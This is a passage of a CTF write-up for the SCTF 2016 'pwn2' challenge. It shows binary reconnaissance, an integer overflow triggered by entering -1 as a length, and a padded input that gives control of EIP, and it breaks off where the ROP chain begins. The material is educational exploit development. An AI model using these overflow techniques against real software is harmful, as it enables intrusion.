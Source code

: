 ```yaml
---
layout: post
title: SCTF 2016 - pwn2
post_author: r00ta
excerpt_separator: <!--more-->
---
```


I solved this challenge during the ctf with @ret2libc.

First of all execute `file` command

```bash
$ file pwn2
pwn2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbc536d4b730eca9af1733195bd75dc53486a0d54, not stripped
```

and `checksec` 

```bash
$ ./checksec --file pwn2
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	pwn2
```

The vulnerability is trivial: a very basic integer overflow


![Vuln]( {{ site.baseurl }}/files/sctf2016/pwn2/vuln.png)

So we can easily overflow the buffer (we used `socat`, so we connect with `nc` to the service)

```bash
$ nc localhost 2323
How many bytes do you want me to read? -1
Ok, sounds good. Give me 4294967295 bytes of data!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB                                      
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

and see `dmesg`

```bash
$ dmesg
..
..
..
[ 1929.348357] pwn2[1876]: segfault at 42424242 ip 42424242 sp bfe9c8a0 error 14
```

Quite easy for the moment. The tricky part of the challenge is to write a nice ROPchain. 
When we get control of EIP registers are (note that EAX and ECX depends on the length of our buffer, but for our solution it dosn't matter)

